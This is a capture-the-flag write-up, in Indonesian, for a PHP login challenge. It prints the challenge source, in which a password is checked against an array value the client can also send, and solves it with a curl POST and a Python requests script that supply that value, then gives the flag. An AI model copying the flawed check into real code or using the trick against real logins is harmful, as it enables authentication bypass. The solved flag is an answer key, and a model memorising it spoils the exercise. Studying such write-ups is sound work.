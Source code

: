 <h1><b>Simpel Login</b></h1>
<pre>
Mimin ada challenge buat kalian, kalian cukup login saja kok :D

Hint: Kali ini bukan sebuah SQL Injection. (Edited) Tambahan, Jangan terlalu terfokuskan pada variabel flag_

Challenge --> <a href=''>URL</a>
</pre>
<h3><b>Solution</b></h3>
<p>buka inspect element(CTRL + SHIFT + I), ?source=1 pada pada link yang didapatkan. Maka didapatkanlah source code program</p>

```php
<?php
include 'flag.php';

    $data = @$_POST['data'];
    if (@$data['username'] != "") {
        if (@$data['username'] == "admin") {
            if (@$data['password'] != "") {
                $pass = @$flag_data[target_password];
                if ($data['password'] == $pass) {
                    echo "Here is your flag : " . $flag . "<br><br>";
                } else {
                    echo "Password tidak sesuai!<br><br>";
                }
            } else {
                echo "Password masih kosong!<br><br>";
            }
        } else {
            echo "Username tidak sesuai!<br><br>";
        }
    }
?>
```

<p align='justify'>Hanya mengikuti statment pada program yaitu data[username]=admin, data[password]=venom, data[target_password]=venom. Pada form HTML memang tidak
disediakan untuk menginput data[target_password], kita bisa menggunakan curl atau script untuk melakukan request POST</p>

```console
root@Python:/home/venom# curl -d "data[username]=admin&data[password]=123&data[target_password]=123" -X POST https://web.ctf.rasyidmf.com/chal14/  | head -1
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   542    0   477  100    65   3057    416 --:--:-- --:--:-- --:--:--  3474
Here is your flag : CTFR{3xpl01t_fr0m_4rr4y_1nput_1s_4w3s0m3???}<br><br><!DOCTYPE html>
root@Python:/home/venom# 
```

```python3
import requests

json_data = {'data[username]':'admin',
             'data[password]':'123',
             'data[target_password]':'123'}
res = requests.post('https://web.ctf.rasyidmf.com/chal14/',data=json_data).text
print(res.split(' ')[5].replace('<br><br><!DOCTYPE',''))#CTFR{3xpl01t_fr0m_4rr4y_1nput_1s_4w3s0m3???}
```
<h3><b>Flag</b></h3>
<pre>
CTFR{3xpl01t_fr0m_4rr4y_1nput_1s_4w3s0m3???}
</pre>
